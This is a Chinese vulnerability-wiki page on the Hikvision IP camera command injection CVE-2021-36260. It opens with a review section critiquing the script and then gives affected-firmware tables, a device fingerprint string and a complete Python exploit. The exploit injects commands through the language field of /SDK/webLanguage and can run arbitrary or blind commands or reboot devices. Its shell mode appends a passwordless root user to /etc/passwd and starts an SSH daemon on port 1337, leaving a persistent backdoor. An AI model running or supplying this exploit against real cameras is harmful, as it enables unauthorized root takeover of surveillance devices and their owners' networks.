

# Hikvision DS/IDS/IPC 等设备 远程命令执行漏洞 CVE-2021-36260

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：Hikvision IPC/IPD摄像机及OEM
- 本文讨论：CVE-2021-36260 SDK/webLanguage language命令注入
- 版本、权限与配置前提：未认证，固件多分支；脚本命令22字符限制/可写webLib路径；模型匹配不验证
- 资料类型：固件矩阵/完整利用脚本；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- HTTP/HTTPS自动切换else也设https，不能从https切回http；多处None未查就status_code
- safe check实际写固定webLib/c且不清理，旧文件/任意200可误报；reboot后连接失败不能独立证明漏洞且有破坏性
- shell模式写/etc/passwd新增UID0用户并开dropbear1337，属持久访问变化，不只是临时SSH连接，正文应显著提示
- 矩阵为具体已测试版本而非完整修复边界，OEM栏空白，CVE公开链接有而厂商修复链接缺

### 操作风险与恢复

- 执行文中载荷可能以目标进程权限启动命令或加载代码；权限受认证角色、操作系统账户及依赖版本约束，不能把 root/200 等通用字符串当成功证据
- 延时探针会占用线程或数据库连接；需记录基线和对照，单次慢响应或超时不足判定注入

### 待核与来源

- WatchfulIP/厂商公告、各型号/OEM矩阵及图片待核；脚本未执行
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


## 漏洞描述

海康威视部分产品中的web模块存在一个命令注入漏洞，由于对输入参数校验不充分，攻击者可以发送带有恶意命令的报文到受影响设备，成功利用此漏洞可以导致命令执行。海康威视已发布版本修复该漏洞

## 漏洞影响

1. 易受攻击的网络摄像机固件

| **产品类型** | **影响版本**                        |
| ------------ | ----------------------------------- |
| IPC_E0       | IPC_E0_CN_STD_5.4.6_180112          |
| IPC_E1       | 未知                                |
| IPC_E2       | IPC_E2_EN_STD_5.5.52_180620         |
| IPC_E4       | 未知                                |
| IPC_E6       | IPCK_E6_EN_STD_5.5.100_200226       |
| IPC_E7       | IPCK_E7_EN_STD_5.5.120_200604       |
| IPC_G3       | IPC_G3_EN_STD_5.5.160_210416        |
| IPC_G5       | IPC_G5_EN_STD_5.5.113_210317        |
| IPC_H1       | IPC_H1_EN_STD_5.4.61_181204         |
| IPC_H5       | IPCP_H5_EN_STD_5.5.85_201120        |
| IPC_H8       | Factory installed firmware mid 2021 |
| IPC_R2       | IPC_R2_EN_STD_V5.4.81_180203        |

2. 易受攻击的 PTZ 摄像机固件

| **产品类型** | **影响版本**                  |
| ------------ | ----------------------------- |
| IPD_E7       | IPDEX_E7_EN_STD_5.6.30_210526 |
| IPD_G3       | IPDES_G3_EN_STD_5.5.42_210106 |
| IPD_H5       | IPD_H5_EN_STD_5.5.41_200911   |
| IPD_H7       | IPD_H7_EN_STD_5.5.40_200721   |
| IPD_H8       | IPD_H8_EN_STD_5.7.1_210619    |

3. 易受攻击的旧固件

| **产品类型** | **影响版本** |
| ------------ | ------------ |
| IPC_R7       | 5.4.x        |
| IPD_R7       | 5.4.x        |
| IPC_G0       | 5.4.x        |
| IPC_H3       | 5.4.x        |
| IPD_H3       | 5.4.x        |

4. OEM 固件

## 网络测绘

```
"671-1e0-587ec4a1"
```

## 漏洞复现

登录页面


基于POC执行以下命令

```
python CVE-2021-36260.py --rhost 127.0.0.1 --rport 8081 --cmd "ls"
```




## 漏洞POC

```python
# Exploit Title: Hikvision Web Server Build 210702 - Command Injection
# Exploit Author: bashis
# Vendor Homepage: https://www.Hikvision.com/
# Version: 1.0
# CVE: CVE-2021-36260
# Reference: https://watchfulip.github.io/2021/09/18/Hikvision-IP-Camera-Unauthenticated-RCE.html

# All credit to Watchful_IP

#!/usr/bin/env python3

"""
Note:
1)  This code will _not_ verify if remote is Hikvision device or not.
2)  Most of my interest in this code has been concentrated on how to
    reliably detect vulnerable and/or exploitable devices.
    Some devices are easy to detect, verify and exploit the vulnerability,
    other devices may be vulnerable but not so easy to verify and exploit.
    I think the combined verification code should have very high accuracy.
3)  'safe check' (--check) will try write and read for verification
    'unsafe check' (--reboot) will try reboot the device for verification

[Examples]
Safe vulnerability/verify check:
    $./CVE-2021-36260.py --rhost 192.168.57.20 --rport 8080 --check

Safe and unsafe vulnerability/verify check:
(will only use 'unsafe check' if not verified with 'safe check')
    $./CVE-2021-36260.py --rhost 192.168.57.20 --rport 8080 --check --reboot

Unsafe vulnerability/verify check:
    $./CVE-2021-36260.py --rhost 192.168.57.20 --rport 8080 --reboot

Launch and connect to SSH shell:
    $./CVE-2021-36260.py --rhost 192.168.57.20 --rport 8080 --shell

Execute command:
    $./CVE-2021-36260.py --rhost 192.168.57.20 --rport 8080 --cmd "ls -l"

Execute blind command:
    $./CVE-2021-36260.py --rhost 192.168.57.20 --rport 8080 --cmd_blind "reboot"

$./CVE-2021-36260.py -h
[*] Hikvision CVE-2021-36260
[*] PoC by bashis <mcw noemail eu> (2021)
usage: CVE-2021-36260.py [-h] --rhost RHOST [--rport RPORT] [--check]
                         [--reboot] [--shell] [--cmd CMD]
                         [--cmd_blind CMD_BLIND] [--noverify]
                         [--proto {http,https}]

optional arguments:
  -h, --help            show this help message and exit
  --rhost RHOST         Remote Target Address (IP/FQDN)
  --rport RPORT         Remote Target Port
  --check               Check if vulnerable
  --reboot              Reboot if vulnerable
  --shell               Launch SSH shell
  --cmd CMD             execute cmd (i.e: "ls -l")
  --cmd_blind CMD_BLIND
                        execute blind cmd (i.e: "reboot")
  --noverify            Do not verify if vulnerable
  --proto {http,https}  Protocol used
$
"""

import os
import argparse
import time

import requests
from requests import packages
from requests.packages import urllib3
from requests.packages.urllib3 import exceptions


class Http(object):
    def __init__(self, rhost, rport, proto, timeout=60):
        super(Http, self).__init__()

        self.rhost = rhost
        self.rport = rport
        self.proto = proto
        self.timeout = timeout

        self.remote = None
        self.uri = None

        """ Most devices will use self-signed certificates, suppress any warnings """
        requests.packages.urllib3.disable_warnings(requests.packages.urllib3.exceptions.InsecureRequestWarning)

        self.remote = requests.Session()

        self._init_uri()

        self.remote.headers.update({
            'Host': f'{self.rhost}:{self.rport}',
            'Accept': '*/*',
            'X-Requested-With': 'XMLHttpRequest',
            'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
            'Accept-Encoding': 'gzip, deflate',
            'Accept-Language': 'en-US,en;q=0.9,sv;q=0.8',
        })
        """
        self.remote.proxies.update({
            # 'http': 'http://127.0.0.1:8080',
        })
        """

    def send(self, url=None, query_args=None, timeout=5):

        if query_args:
            """Some devices can handle more, others less, 22 bytes seems like a good compromise"""
            if len(query_args) > 22:
                print(f'[!] Error: Command "{query_args}" to long ({len(query_args)})')
                return None

        """This weird code will try automatically switch between http/https
        and update Host
        """
        try:
            if url and not query_args:
                return self.get(url, timeout)
            else:
                data = self.put('/SDK/webLanguage', query_args, timeout)
        except requests.exceptions.ConnectionError:
            self.proto = 'https' if self.proto == 'http' else 'https'
            self._init_uri()
            try:
                if url and not query_args:
                    return self.get(url, timeout)
                else:
                    data = self.put('/SDK/webLanguage', query_args, timeout)
            except requests.exceptions.ConnectionError:
                return None
        except requests.exceptions.RequestException:
            return None
        except KeyboardInterrupt:
            return None

        """302 when requesting http on https enabled device"""

        if data.status_code == 302:
            redirect = data.headers.get('Location')
            self.uri = redirect[:redirect.rfind('/')]
            self._update_host()
            if url and not query_args:
                return self.get(url, timeout)
            else:
                data = self.put('/SDK/webLanguage', query_args, timeout)

        return data

    def _update_host(self):
        if not self.remote.headers.get('Host') == self.uri[self.uri.rfind('://') + 3:]:
            self.remote.headers.update({
                'Host': self.uri[self.uri.rfind('://') + 3:],
            })

    def _init_uri(self):
        self.uri = '{proto}://{rhost}:{rport}'.format(proto=self.proto, rhost=self.rhost, rport=str(self.rport))

    def put(self, url, query_args, timeout):
        """Command injection in the <language> tag"""
        query_args = '<?xml version="1.0" encoding="UTF-8"?>' \
                     f'<language>$({query_args})</language>'
        return self.remote.put(self.uri + url, data=query_args, verify=False, allow_redirects=False, timeout=timeout)

    def get(self, url, timeout):
        return self.remote.get(self.uri + url, verify=False, allow_redirects=False, timeout=timeout)


def check(remote, args):
    """
    status_code == 200 (OK);
        Verified vulnerable and exploitable
    status_code == 500 (Internal Server Error);
        Device may be vulnerable, but most likely not
        The SDK webLanguage tag is there, but generate status_code 500 when language not found
        I.e. Exist: <language>en</language> (200), not exist: <language>EN</language> (500)
        (Issue: Could also be other directory than 'webLib', r/o FS etc...)
    status_code == 401 (Unauthorized);
        Defiantly not vulnerable
    """
    if args.noverify:
        print(f'[*] Not verifying remote "{args.rhost}:{args.rport}"')
        return True

    print(f'[*] Checking remote "{args.rhost}:{args.rport}"')

    data = remote.send(url='/', query_args=None)
    if data is None:
        print(f'[-] Cannot establish connection to "{args.rhost}:{args.rport}"')
        return None
    print('[i] ETag:', data.headers.get('ETag'))

    data = remote.send(query_args='>webLib/c')
    if data is None or data.status_code == 404:
        print(f'[-] "{args.rhost}:{args.rport}" do not looks like Hikvision')
        return False
    status_code = data.status_code

    data = remote.send(url='/c', query_args=None)
    if not data.status_code == 200:
        """We could not verify command injection"""
        if status_code == 500:
            print(f'[-] Could not verify if vulnerable (Code: {status_code})')
            if args.reboot:
                return check_reboot(remote, args)
        else:
            print(f'[+] Remote is not vulnerable (Code: {status_code})')
        return False

    print('[!] Remote is verified exploitable')
    return True


def check_reboot(remote, args):
    """
    We sending 'reboot', wait 2 sec, then checking with GET request.
    - if there is data returned, we can assume remote is not vulnerable.
    - If there is no connection or data returned, we can assume remote is vulnerable.
    """
    if args.check:
        print('[i] Checking if vulnerable with "reboot"')
    else:
        print(f'[*] Checking remote "{args.rhost}:{args.rport}" with "reboot"')
    remote.send(query_args='reboot')
    time.sleep(2)
    if not remote.send(url='/', query_args=None):
        print('[!] Remote is vulnerable')
        return True
    else:
        print('[+] Remote is not vulnerable')
        return False


def cmd(remote, args):
    if not check(remote, args):
        return False
    data = remote.send(query_args=f'{args.cmd}>webLib/x')
    if data is None:
        return False

    data = remote.send(url='/x', query_args=None)
    if data is None or not data.status_code == 200:
        print(f'[!] Error execute cmd "{args.cmd}"')
        return False
    print(data.text)
    return True


def cmd_blind(remote, args):
    """
    Blind command injection
    """
    if not check(remote, args):
        return False
    data = remote.send(query_args=f'{args.cmd_blind}')
    if data is None or not data.status_code == 500:
        print(f'[-] Error execute cmd "{args.cmd_blind}"')
        return False
    print(f'[i] Try execute blind cmd "{args.cmd_blind}"')
    return True


def shell(remote, args):
    if not check(remote, args):
        return False
    data = remote.send(url='/N', query_args=None)

    if data.status_code == 404:
        print(f'[i] Remote "{args.rhost}" not pwned, pwning now!')
        data = remote.send(query_args='echo -n P::0:0:W>N')
        if data.status_code == 401:
            print(data.headers)
            print(data.text)
            return False
        remote.send(query_args='echo :/:/bin/sh>>N')
        remote.send(query_args='cat N>>/etc/passwd')
        remote.send(query_args='dropbear -R -B -p 1337')
        remote.send(query_args='cat N>webLib/N')
    else:
        print(f'[i] Remote "{args.rhost}" already pwned')

    print(f'[*] Trying SSH to {args.rhost} on port 1337')
    os.system(f'stty echo; stty iexten; stty icanon; \
    ssh -o StrictHostKeyChecking=no -o LogLevel=error -o UserKnownHostsFile=/dev/null \
    P@{args.rhost} -p 1337')


def main():
    print('[*] Hikvision CVE-2021-36260\n[*] PoC by bashis <mcw noemail eu> (2021)')

    parser = argparse.ArgumentParser()
    parser.add_argument('--rhost', required=True, type=str, default=None, help='Remote Target Address (IP/FQDN)')
    parser.add_argument('--rport', required=False, type=int, default=80, help='Remote Target Port')
    parser.add_argument('--check', required=False, default=False, action='store_true', help='Check if vulnerable')
    parser.add_argument('--reboot', required=False, default=False, action='store_true', help='Reboot if vulnerable')
    parser.add_argument('--shell', required=False, default=False, action='store_true', help='Launch SSH shell')
    parser.add_argument('--cmd', required=False, type=str, default=None, help='execute cmd (i.e: "ls -l")')
    parser.add_argument('--cmd_blind', required=False, type=str, default=None, help='execute blind cmd (i.e: "reboot")')
    parser.add_argument(
        '--noverify', required=False, default=False, action='store_true', help='Do not verify if vulnerable'
    )
    parser.add_argument(
        '--proto', required=False, type=str, choices=['http', 'https'], default='http', help='Protocol used'
    )
    args = parser.parse_args()

    remote = Http(args.rhost, args.rport, args.proto)

    try:
        if args.shell:
            shell(remote, args)
        elif args.cmd:
            cmd(remote, args)
        elif args.cmd_blind:
            cmd_blind(remote, args)
        elif args.check:
            check(remote, args)
        elif args.reboot:
            check_reboot(remote, args)
        else:
            parser.parse_args(['-h'])
    except KeyboardInterrupt:
        return False


if __name__ == '__main__':
    main()
```


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
